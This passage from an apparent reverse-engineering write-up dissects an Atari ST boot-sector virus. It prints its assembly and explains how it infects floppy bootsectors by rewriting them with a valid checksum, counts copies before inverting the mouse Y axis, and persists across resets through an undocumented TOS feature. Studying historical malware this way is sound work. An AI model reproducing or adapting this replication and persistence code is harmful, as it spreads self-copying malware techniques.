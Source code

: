 ```asm
HDV_HPB_VECTOR_END:   MOVEM.L   (sp)+,A0-A6/D1-D7 

HDV_HPB_ORIGINAL_VECTOR:
            JMP       $00FC0FCA                         ; will be patched to contain hdv_bpb original vector address

INITMOUS_PARAMS:
            DC.B      $01                               ; y origin at top 
            DC.B      $01                               ; buttons events
            DC.B      $01                               ; x threshold
            DC.B      $01                               ; y threshold
      
COUNTER: 
            DC.L      $FFFFFFFB                         ; replication counter, initialized at -5

END:        DC.B      $00,$00
```

In details, this routine:

 1. Retrieves the 1st Getbpb() parameter from the stack: dev (0 for A, 1 for B, ...)
 1. If A or B (meaning this is a floppy), reads the bootsector using XBIOS FLOPRD and stores it in a buffer (`BOOTSECT_BUF`)
 1. Patches the buffer adding the classic `0x601C` BRA instruction to branch to the bootsector code
 1. Copies the `Loader` into the buffer at `0x1E`
 1. Compute the checksum andset the lasst word to be equals to `0x1234` rquired to make the bootsector executable
 1. Write back the buffer to the bootsector using XBIOS FLOPWR
 1. Increment the counter `COUNTER_ADDR` (initilialized at -5) 
 1. If `COUNTER_ADDR` equals to 5:
    1. use XBIOS KBDVBASE call to retrieve keyboard, midi... ans especiall the mousevec vector (located at `MOUSEVEC_OFFSET` in the returned structure)
    1. Call XBIOS initmouse(mode, params, mouse vector) while setting the first param, y origin at top, to 1 to invert the Y axis
    1. Patch the params data with a XOR to reset the y origin to 0 and remove the virus effect... for 5 copies!

#### The Reset Vector

The Reset Vector, installed by the Loader, will use an undocumented TOS feature which allow a routine to be run after reset if a magic value is set at some predefined locations and if the routine checksu is equals to `0x5678` (you'll notice the symetry with the bootsector checksum: `0x1234`).

```asm
RESET_VECTOR:                                           ; $194
            MOVEA.L   PHYSTOP.W,A1 				        ; Set A1 to phystop (end of mem), $80000/524288 on 520ST
                                                        ; ghost looks to install itself at a required $200 boundary page
                                                        ; at page 40 ($8000) - 1 ($200)
            SUBA.L    #RESET_VECTOR_PAGE,A1             ; 
            SUBA.L    #RESET_VECTOR_SUBPAGE,A1          ; decrease a memory page (512 bytes)

            MOVE.L    A1,D1                             ; Save location address (needed to TOS)
            MOVE.L    #RESIDENT_MAGIC,(A1)+             ; Add magic word 0x12123456 that TOS looks for
            MOVE.L    D1,(A1)+                          ; then actual memory address of the magic work

                                                        ; In successful case, TOS first does a wrd
                                                        ; checksum, which has to be $5678. If that  is correct, the code on
                                                        ; that  double  memory  page  is  executed  through JSR with return
                                                        ; address in A6.
```